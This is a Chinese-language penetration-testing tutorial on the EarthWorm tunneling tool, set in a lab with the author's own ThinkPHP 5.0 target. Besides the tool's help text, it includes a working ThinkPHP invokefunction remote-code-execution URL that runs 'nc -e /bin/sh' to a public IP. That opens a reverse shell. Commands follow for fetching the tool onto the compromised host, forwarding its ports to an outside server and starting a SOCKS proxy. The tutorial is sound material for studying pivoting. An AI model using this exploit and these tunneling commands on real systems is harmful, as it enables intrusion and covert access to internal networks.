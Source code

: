 
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口(公网向外转发的端口)
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口(公网接收端口)
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235
下载ew
wget -p /tmp http://45.\*.\*.190/ew_for_linux
chmod +x ew_for_linux

## 使用lcx相关的功能
### 将肉鸡的22端口或者内网中的10.203.87.61的80端口转发到公网上8888端口
`./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522`

> 第一次用就出了一个问题
```
[root@localhost 45.*.*.190]# ./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522
-bash: ./ew_for_linux: /lib/ld-linux.so.2: bad ELF interpreter: 没有那个文件或目录
```
> 解决方案到肉鸡上：yum install glibc.i686，那么如果肉鸡上没有安装权限可能就要换工具了

### 公网服务器监听端口转发8888
`./ew_for_Linux32 -s lcx_listen -l 443 -e 2222`


> 中间遇到的小插曲：不知道为什么就是用不了 ssh抓包 握手成功了  请求也发出去了  就是没有相应 也不断开连接，从1.0换到1.2也不行，感觉像是防火墙的问题，但是使用lcx却连接上了，同样的端口ew就不行，一切连接都显示正常，就是不回包，最后仔细检查一遍之后发现公网上的接收端口写反了，居然没有报错！！！

## 测试socks代理

### 打开正向socks V5代理(好像多了一种用工作室的网的方式)
./ew_for_linux -s ssocksd -l 1080

## 反向代理
